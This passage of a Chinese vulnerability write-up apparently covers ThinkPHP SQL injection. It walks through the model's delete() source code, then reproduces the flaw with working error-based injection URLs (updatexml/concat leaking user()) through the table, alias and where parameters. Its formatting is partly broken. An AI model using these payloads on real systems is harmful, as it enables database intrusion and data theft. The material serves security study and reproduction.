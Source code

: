 `delete`函数有些不同，主要是在解析完`$options`之后，还对`$options['where']`判断了一下是否为空，需要我们传一下值，使之不为空,从而继续执行删除操作。

```
......
        // 分析表达式
        $options = $this->_parseOptions($options);
        if (empty($options['where'])) { //注意这里，还判断了一下$options['where']是否为空，为空直接返回，不再执行下面的代码。
            // 如果条件为空 不进行删除操作 除非设置 1=1
            return false;
        }
        if (is_array($options['where']) && isset($options['where'][$pk])) {
            $pkValue = $options['where'][$pk];
        }

```
 if (false === $this-&gt;_before_delete($options)) {
        return false;
    }
    $result = $this-&gt;db-&gt;delete($options);
    if (false !== $result &amp;&amp; is_numeric($result)) {
        $data = array();
        if (isset($pkValue)) {
            $data[$pk] = $pkValue;
        }

        $this-&gt;_after_delete($data, $options);
    }
    // 返回删除记录个数
    return $result; 
``` 
```

### 漏洞复现

针对`select()` 和`find()`方法 ,有很多地方可注，这里主要列举三个`table`，`alias`，`where`，更多还请自行跟踪一下`parseSql`的各个`parseXXX`方法，目测都是可行的，比如`having`,`group`等。

```
table：http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[table]=user where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

alias：[http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[alias]=where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e](http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id%5Balias%5D=where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e)),1)– `where: [http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e](http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id%5Bwhere%5D=1%20and%20updatexml(1,concat(0x7e,user(),0x7e)),1)–` 
```

![image](img/5057739dd2b302d5ba73c000df489787.png)
